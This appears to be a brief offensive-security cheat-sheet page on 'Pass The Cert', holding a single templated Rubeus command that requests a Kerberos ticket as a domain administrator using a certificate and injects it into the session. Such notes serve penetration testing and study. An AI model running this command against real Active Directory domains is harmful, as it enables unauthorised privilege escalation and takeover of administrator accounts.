 # Pass The Cert

### From windows

#### Rubeus

{% code overflow="wrap" %}
```powershell
./Rubeus.exe asktgt /user:<DOMAIN>\administrator /certificate:<PFX> /dc:<MACHINE> /password:<PASSWORD> /ptt
```
{% endcode %}


